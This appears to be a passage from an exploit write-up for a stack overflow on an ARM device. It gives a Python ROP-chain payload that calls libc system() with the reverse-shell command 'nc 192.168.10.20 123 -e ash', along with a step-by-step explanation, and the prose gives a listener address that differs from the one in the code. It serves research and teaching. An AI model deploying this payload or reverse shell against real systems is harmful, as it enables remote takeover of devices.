 ```
-python
 # Get function addresses we need from libc base
system_libc = libc_base + 0x4b4fc # 0x4b4fc
exit_libc = libc_base + 0x46c30 # 0x46c30

# Do the stack overflow and execute arbitrary command
payload = b'\x41' * 268 # pad until pc overwritten
payload += p32(libc_base + 0x4a5e0) # pc

# | 0x4a5e0 | ldmia sp!,{r3,pc} |
payload += p32(libc_base + 0x313f8) # r3 - copy r2 into r0
payload += p32(libc_base + 0x32c24) # pc

# | 0x32c24 | add r2,sp,#0x3c | blx r3 |

# | 0x313f8 | cpy r0,r2 | ldmia sp!,{r4,pc} |
payload += p32(0xdeadbeef) # r4
payload += p32(system_libc) # pc
payload += b"Aa0Aa1Aa" # padding
payload += p32(libc_base + 0x184f4) # pc

# | 0x184f4 | mov r0,#0x1 | ldmia sp!,{r4,pc} |
payload += p32(0xdeadbeef) # r4
payload += p32(exit_libc) # pc

payload += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab" # padding
payload += b"nc 192.168.10.20 123 -e ash #" # command to execute as system
```

We start by using our *libc* base to calculate the addresses of the **system()** and **exit()** calls. Next, we pad the input until we reach the first *pc* overwrite which we set to a gadget the loads *r3* and *pc* off of the stack. Our next gadget (which we just put into *pc*) simply puts the *sp* register + *0x3c* (which will be where our command is located) into the *r2* register, and then uses *blx* to branch to the gadget we just put into *r3*. This gadget just copies *r2* into *r0* to get our command string into the correct argument register. It then loads *r4* and *pc* off of the stack, we can ignore *r4*, and set the *pc* to be the address of **system()** as this will use our command as its first argument. 

**system()** will execute and we can regain control of execution further down the stack, where we put the value *1* into *r0* and call **exit()** to exit the program cleanly (we've executed **system()** at this point so we no longer care about this program). Finally at the end of the exploit, we place some padding to get our command string in the correct position, and then append the command string itself.

This exploit will cause the system to execute the **nc 192.168.10.1 123 -e ash** command, forking the process and connecting to our netcat listener running on 192.168.10.1 and giving us a reverse shell.

Here is a demo of the exploit using the global leak:
